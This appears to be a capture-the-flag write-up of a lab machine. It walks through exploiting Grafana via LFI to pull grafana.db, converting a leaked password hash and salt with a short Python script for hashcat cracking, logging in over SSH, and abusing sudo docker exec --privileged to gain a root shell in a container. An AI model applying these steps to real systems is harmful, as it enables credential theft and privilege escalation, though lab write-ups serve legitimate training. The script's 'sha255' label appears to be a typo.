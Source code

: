 # Enumeration
There is website running grafana at port 3000
![](attachment/b6a86af948f5d4fa1fdca2f72f0f4939.png)

Using an exploit available we can get the grafana.db file.
![](attachment/fac1626811132d13d1fd945500397b87.png)
We get the users


Now running decrypt.py:
```
import hashlib
import base64
password= '7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8'
salt = 'YObSoLj55S'
decoded_hash = bytes.fromhex(password)
hash64 = base64.b64encode(decoded_hash).decode('utf-8')
salt64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')
print("sha255:10000:"+salt64+":"+hash64+"\n")    
```
Now we get a hash we can crack in hashcat.

Cracking the hash we get cred:
![](attachment/a138f3173a77861f37626ae99b6f31c2.png)
Now using ssh and logging in we have sudo privilege on docker exec:
![](attachment/06a0e76a659090464cf3a706e9270a1e.png)
The /etc/passwd obtained from LFI is different than the one on this box so it might be a docker container.

When creating a Docker container if -h or -hostname is not specified then hostname is container name.

So getting hostname from grafana machine using LFI:
![](attachment/41fbcc4fa56c646f77c5ca6951616b32.png)
To get into container:
```
sudo docker exec --privileged --user 0 -it e6ff5b1cbc85 /bin/sh
```

